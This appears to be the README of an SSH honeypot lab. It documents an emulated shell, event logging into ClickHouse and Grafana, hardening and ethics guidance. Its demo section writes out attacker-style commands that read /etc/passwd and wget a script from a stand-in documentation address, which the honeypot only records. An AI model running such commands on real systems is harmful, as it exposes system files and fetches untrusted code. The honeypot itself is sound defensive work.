




<p align="center">
  
</p>

<p align="center">
  <em>Uncover Threats Faster, Stay One Step Ahead</em>
</p>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  <em>Built with the tools and technologies:</em>
</p>

<p align="center">
  
  
  
  
  
  
  
</p>

---

## Overview

HoneyTrap is a small honeypot lab. The SSH service accepts connections and passwords, then answers from an **emulated** shell. Attacker input is written to a JSONL log. A collector tails that log into ClickHouse, Prometheus scrapes metrics, and Grafana reads ClickHouse. A Python helper can push source addresses to a sibling SentinelForge API.

The honeypot does not run `std::process` or a real shell. Commands such as `wget` and `curl` return canned errors.

---

## Architecture


```mermaid
flowchart LR
    Attacker[Attacker] -->|TCP 2222| Honeypot[SSH honeypot]
    Honeypot --> JSONL[events JSONL]
    JSONL --> Collector[Collector]
    Collector -->|JSONEachRow| ClickHouse[(ClickHouse)]
    ClickHouse --> Grafana[Grafana]
    JSONL -.-> Tools[honeytrap_integration.py]
    Tools -.->|X-API-Key| SentinelForge[SentinelForge API]
    Honeypot -->|metrics| Prometheus[Prometheus]
    Collector -->|metrics| Prometheus
```


```mermaid
sequenceDiagram
    participant Attacker
    participant Honeypot as SSH honeypot
    participant JSONL as events JSONL
    participant Collector
    participant ClickHouse
    participant Grafana

    Attacker->>Honeypot: SSH on port 2222
    Honeypot->>JSONL: connection, auth, command
    Honeypot-->>Attacker: emulated shell output
    Collector->>JSONL: tail
    Collector->>ClickHouse: INSERT events_raw
    Grafana->>ClickHouse: dashboard queries
```

---

## Layout

```
honeytrap/
├── Cargo.toml
├── docker-compose.yml          # honeypot, collector, ClickHouse, Prometheus, Grafana
├── docker/Dockerfile           # multi-stage honeypot and collector targets
├── .env.example
├── honeypots/ssh/              # emulated SSH honeypot
├── collector/                  # JSONL -> ClickHouse
├── shared/                     # events, IOC extraction, GeoIP stub
├── configs/                    # Prometheus and Grafana provisioning
├── data/events/ssh.jsonl       # synthetic sample (documentation IPs)
└── tools/                      # SentinelForge push and synthetic events
```

---

## Quick start

```bash
git clone https://github.com/lloredia/honeytrap.git
cd honeytrap
cp .env.example .env
# Set GRAFANA_ADMIN_PASSWORD and CLICKHOUSE_PASSWORD. Do not leave change-me.
docker compose up --build -d
```

| Service | Where | Exposure |
|---------|--------|----------|
| SSH honeypot | `ssh -p 2222 root@127.0.0.1` | Published on all interfaces. Any password is accepted. |
| Grafana | http://127.0.0.1:3000 | Loopback only. User and password come from `.env`. |
| Prometheus | http://127.0.0.1:9090 | Loopback only. |
| ClickHouse HTTP | http://127.0.0.1:8123 | Loopback only. |
| Honeypot metrics | http://127.0.0.1:9100/metrics | Loopback only. |
| Collector metrics | http://127.0.0.1:9108/metrics | Loopback only. |

Grafana loads the ClickHouse datasource and the HoneyTrap dashboard from `configs/grafana`. A screenshot is not checked in. After the stack is up, export one from Grafana if you want it in this README.

Try the emulated shell:

```bash
ssh -p 2222 root@127.0.0.1
uname -a
cat /etc/passwd
wget http://203.0.113.10/setup.sh
```

`wget` does not download anything. The command is stored in `/data/events/ssh.jsonl` inside the honeypot volume.

### Without Docker

Rust stable (see `rust-toolchain.toml`) and a ClickHouse you can reach on loopback:

```bash
cp .env.example .env
./run-lab.sh
```

The host key is created at `data/keys/ssh_host_ed25519` on first start and reused. `run-lab.sh` does not wipe your SSH known_hosts entry.

---

## Safe deployment

A honeypot is bait. Treat the host as compromised the moment it is reachable.

- Run it on an isolated VM or VPC, with no production data and no route to internal systems.
- Deny egress from that host. The emulated shell does not fetch payloads, and a firewall keeps it that way if the emulation is ever bypassed. The Grafana image installs its ClickHouse plugin at build time, so the running stack does not need to download it.
- Publish only port 2222. Grafana, Prometheus, ClickHouse, and the metrics ports in this Compose file listen on `127.0.0.1`.
- Move the real SSH daemon off port 22 before this host is reachable. Keep administrative access on a different port or a different host, and do not share that path with the honeypot.
- Passwords live in `.env`, which is gitignored. The collector reads `CLICKHOUSE_PASSWORD` from the environment, not from its command line.
- The honeypot and collector images are non-root, with a read-only root filesystem, all capabilities dropped, and `no-new-privileges`. Every service has memory and CPU limits. ClickHouse keeps its default capabilities because its entrypoint starts as root and then drops to the `clickhouse` user.
- The SSH host key is stored on the data volume so the fingerprint does not change on every restart.

**Legal and ethics.** Deploy only on systems you own or where you have written authorization. Recording traffic and credentials can be regulated. Do not reuse captured commands, keys, or payloads against anyone else. The sample data in this repository uses documentation addresses from RFC 5737 (`203.0.113.0/24`, `198.51.100.0/24`, `192.0.2.0/24`), not live indicators.

---

## Configuration

| Variable | Default | Used by |
|----------|---------|---------|
| `GRAFANA_ADMIN_USER` / `GRAFANA_ADMIN_PASSWORD` | set in `.env` | Grafana |
| `CLICKHOUSE_USER` / `CLICKHOUSE_PASSWORD` / `CLICKHOUSE_DB` | set in `.env` | ClickHouse, collector, Grafana |
| `SSH_PORT` | `2222` | Compose publish port and `run-lab.sh` |
| `HONEYPOT_ID` | `ssh-01` | Event destination |
| `RUST_LOG` | `info` | honeypot and collector |
| `SENTINELFORGE_API_URL` | `http://127.0.0.1:8080/api/v1` | `tools/honeytrap_integration.py` |
| `SENTINELFORGE_API_KEY` | required to push IOCs | sent as `X-API-Key` |

Honeypot limits (CLI flags, with these defaults): 64 concurrent sessions, 4 per source IP, 60s idle timeout, 300s session timeout, 512-character lines, 4096-byte input chunks.

---

## Events

`data/events/ssh.jsonl` is a short synthetic session. Live Docker logs go to the `honeytrap-data` volume, not that file.

```json
{
  "protocol": "ssh",
  "category": "command",
  "severity": "high",
  "source": { "ip": "203.0.113.10", "port": 51234 },
  "destination": { "ip": "10.0.0.5", "port": 2222, "honeypot_id": "ssh-01" },
  "command": { "command": "uname -a", "command_name": "uname" }
}
```

Prometheus metrics include `honeytrap_events_captured_total`, `honeytrap_active_sessions`, `honeytrap_auth_attempts_total`, and `honeytrap_connections_rejected_total`.

---

## SentinelForge and synthetic traffic

```bash
cd tools
python -m pip install -e ".[dev]"
export SENTINELFORGE_API_URL=http://127.0.0.1:8080/api/v1
export SENTINELFORGE_API_KEY=replace-me
python honeytrap_integration.py --events-file ../data/events/ssh.jsonl
python honeytrap_test_generator.py --output ../events.jsonl --sessions 50 --clear
```

The generator writes the same JSON shape the collector parses, using documentation IPs only.

---

## Demo

<p align="center">
  
</p>

---

## Development

```bash
cargo fmt --all -- --check
cargo clippy --workspace --all-targets -- -D warnings
cargo test --workspace
cargo audit
cargo deny check
```

```bash
cd tools && ruff check . && pytest
```

Images:

```bash
docker build --target honeypot -t honeytrap-ssh:local .
docker build --target collector -t honeytrap-collector:local .
```

GitHub Actions runs fmt, Clippy, tests, `cargo audit`, `cargo deny`, both image builds, Trivy, Ruff, pytest, and gitleaks.

---

## Roadmap

- [x] SSH honeypot with an emulated shell
- [x] Credential and command capture
- [x] Stable host key and session limits
- [x] JSONL events, collector, ClickHouse, Prometheus, Grafana provisioning
- [x] Optional SentinelForge IOC push
- [ ] HTTP honeypot
- [ ] Telnet honeypot
- [ ] FTP honeypot
- [ ] GeoIP enrichment (the shared helper is still a stub)
- [ ] Alerting
- [ ] Web UI

---

## Contributing

1. Fork the repository
2. Create a feature branch
3. Open a pull request

---

## License

MIT. See [LICENSE](LICENSE).

---

## Acknowledgments

- [russh](https://github.com/warp-tech/russh) — SSH implementation
- [Tokio](https://tokio.rs/) — async runtime
- [Cowrie](https://github.com/cowrie/cowrie) — inspiration for SSH honeypot behavior

---

<p align="center">
  
</p>
